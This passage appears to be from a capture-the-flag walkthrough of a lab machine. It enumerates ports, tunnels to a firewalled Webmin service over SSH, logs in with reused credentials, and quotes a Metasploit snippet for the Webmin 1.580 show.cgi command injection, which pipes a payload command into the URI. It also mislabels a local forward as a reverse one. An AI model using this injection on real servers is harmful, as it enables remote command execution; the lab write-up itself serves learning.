 we can see the ports on the machine.

Or, we can use `ss` tool,

>`ss` is a tool to investigate sockets running on a host.

```bash
ss -tulpn
```

![image](https://user-images.githubusercontent.com/67465230/186081723-82d35fe4-c4f9-41b0-bf5e-1c07f7030f2b.png)

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, using an SSH Tunnel we can expose the port to us (locally)!

We can do Reverse SSH port forwarding by,

```bash
ssh -L 10000:localhost:10000 agent47@10.10.123.20
```

![image](https://user-images.githubusercontent.com/67465230/186081761-a071b5eb-10ec-4f1c-96a4-b64fedc95581.png)

after typing in the agent47 user's password, we got logged in!

Now, tunnel is created and we can access the port 10000 on our browser by visiting http://localhost:10000,

![image](https://user-images.githubusercontent.com/67465230/186081801-055c57d4-f167-4289-bb43-6c4ea7596818.png)

and we got a login page which is running Webmin service.

So here at the moment, I tried to search for Webmin service exploits and wasted half an hour to figure out that this login page can be accessed using the credential I used to login via ssh,

![image](https://user-images.githubusercontent.com/67465230/186081838-c1dfac90-99f9-47da-8b9c-65b53468690d.png)

Cool, we're logged in and we can see the webmin dashboard and webmin version, *1.580*.

I searched for webmin 1.580 exploit on google and found this, [Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit) ](https://www.exploit-db.com/exploits/21851)

```rb
command = payload.encoded

		res = send_request_cgi(
			{
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(rand(5) + 5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)


		if res and res.code == 200 and res.message =~ /Document follows/
			print_good "#{peer} - Payload executed successfully"
		else
			print_error "#{peer} - Error executing the payload"
			return
```

